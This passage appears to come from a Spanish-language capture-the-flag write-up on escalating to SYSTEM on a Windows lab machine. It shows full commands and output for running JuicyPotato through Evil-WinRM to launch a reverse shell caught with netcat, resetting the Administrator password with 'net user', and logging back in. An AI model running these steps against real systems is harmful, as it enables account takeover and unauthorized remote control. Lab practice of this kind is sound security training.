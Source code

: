 ```batch
```
Con todo esto listo, ya podemos usar **Juicy Potato**.

Ejecutémoslo:
```batch
*Evil-WinRM* PS C:\Users\hacker\Desktop> ./JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 443 -a "/c C:\Users\hacker\Desktop\shell.exe"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 443
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
No fue necesario usar un **CLSID** específico.

Y revisando nuestra **netcat**, ya seremos el **usuario Administrador**:
```batch
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.50] 54684
Microsoft Windows [Versi�n 10.0.14393]
(c) 2016 Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami
whoami
nt authority\system
```

El problema es que aún no podremos ver las flags:

```batch
C:\Users\hacker\Desktop>type user.txt
type user.txt
Acceso denegado.

C:\Users\Administrador\Desktop>type root.txt
type root.txt
Acceso denegado.
```
Por alguna razón, si cambiamos la contraseña del **usuario administrador**, ya nos dejará ver las flags.

Cambiemos la contraseña del administrador:
```batch
C:\Users\Administrador\Desktop> net user Administrador hackeado123$!
Se ha completado el comando correctamente.
```

Y nos conectamos con **evil-winrm**:
```batch
evil-winrm -i 192.168.1.50 -u 'Administrador' -p 'hackeado123$!'
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrador\Documents>
```
Ahora sí, podremos ver las flags y con esto, terminamos la máquina.
